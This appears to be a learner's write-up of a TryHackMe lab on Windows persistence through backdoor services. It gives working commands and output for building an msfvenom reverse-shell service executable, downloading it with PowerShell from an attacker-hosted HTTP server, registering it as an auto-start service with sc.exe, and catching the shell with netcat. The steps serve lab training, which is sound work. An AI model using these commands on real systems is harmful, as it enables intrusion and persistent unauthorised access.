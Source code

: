 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/05/2023

# Creating Backdoor Services
1. Started this room's machine
2. `PowerShell`
5. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<MACHINE IP> LPORT=<PORT NUMBER> -f exe-service -o <PAYLOAD NAME1>.exe`
```Bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.44.151 LPORT=9999 -f exe-service -o msfvenomPaylaod.exe
```
6. `sudo python3 -m http.server`
```bash
root@ip-10-10-44-151:~# sudo python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.254.131 - - [06/Jul/2023 01:44:11] "GET /rev-svc.exe HTTP/1.1" 200 -
```
7. `PowerShell "(New-Object System.Net.WebClient).Downloadfile('http://<MACHINE IP>:8000/<PAYLOAD NAME1>.exe','<PAYLOAD NAME2>.exe')"`
```PowerShell
PS C:\Users\Administrator> PowerShell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.44.151:8000/msfvenomPaylaod.exe','Payload.exe')"
```
8. `dir`
```PowerShell
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/17/2021   3:13 PM                3D Objects
d-r---        3/17/2021   3:13 PM                Contacts
d-r---         6/8/2022   4:40 AM                Desktop
d-r---        5/29/2022  12:07 AM                Documents
d-r---        5/29/2022  12:07 AM                Downloads
d-r---        3/17/2021   3:13 PM                Favorites
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
-a----         7/6/2023  12:44 AM          48640 Payload.exe
```
9. `nc -lvnp <PORT NUMBER>`
```Bash
root@ip-10-10-44-151:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
10. `sc.exe create <SERVICE NAME> binPath= "<PAYLOAD NAME2 PATH>" start= auto`
```PowerShell
PS C:\Users\Administrator> sc.exe create THMservice binPath= "C:\Users\Administrator\Payload.exe" start= auto
```
11. `sc.exe start <SERVICE NAME>`
```PowerShell
PS C:\Users\Administrator> sc.exe start THMservice

SERVICE_NAME: THMservice
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 4956
        FLAGS              :
```
```Bash
root@ip-10-10-44-151:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.254.131 49822 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
12. `C:\flags\flag7.exe`
```PowerShell
C:\Windows\system32>C:\flags\flag7.exe
C:\flags\flag7.exe
THM{SUSPICIOUS_SERVICES}
```


**TASK COMPLETED**

# Modifying Existing Services
1. Started this room's machine
